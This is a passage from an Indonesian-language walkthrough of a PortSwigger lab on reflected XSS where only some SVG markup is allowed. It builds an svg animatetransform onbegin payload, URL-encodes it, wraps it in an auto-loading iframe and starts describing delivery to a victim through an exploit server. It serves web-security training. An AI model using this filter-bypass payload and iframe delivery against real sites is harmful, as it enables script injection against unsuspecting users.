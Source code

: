 **Pengamatan:**

![Successful Payload](images/Reflected%20XSS%20with%20some%20SVG%20markup%20allowed/6.png)

### 5. Menyusun Query dan Memahami URL Encoding

Untuk menyuntikkan payload ke dalam fungsi pencarian, kita perlu memahami bagaimana payload tersebut di-encode dalam URL. Berikut adalah langkah-langkahnya:

#### a. Menyusun Payload Akhir

**Payload Akhir:**

```html
<svg><animatetransform onbegin=alert(1) attributeName=transform></svg>
```

**URL Encoded Payload:**

```
%3Csvg%3E%3Canimatetransform%20onbegin%3Dalert(1)%20attributeName%3Dtransform%3E%3C/svg%3E
```

**URL Lengkap:**

```
https://0a69008d036aebe780944ee10019004a.web-security-academy.net/?search=%3Csvg%3E%3Canimatetransform%20onbegin%3Dalert(1)%20attributeName%3Dtransform%3E%3C/svg%3E
```

#### b. Menyisipkan Payload ke dalam Iframe

Untuk menjalankan payload secara otomatis tanpa interaksi pengguna, kita akan menyisipkannya ke dalam elemen `<iframe>`.

**Kode Iframe:**

```html
<iframe src="https://0a69008d036aebe780944ee10019004a.web-security-academy.net/?search=%3Csvg%3E%3Canimatetransform%20onbegin%3Dalert(1)%20attributeName%3Dtransform%3E%3C/svg%3E" width="100%" height="100%" title="Iframe Example"></iframe>
```

### 6. Menyusun dan Mengirimkan Payload melalui Exploit Server

Langkah berikutnya adalah mengirimkan payload melalui Exploit Server agar korban dapat menjalankan payload tanpa menyadarinya.
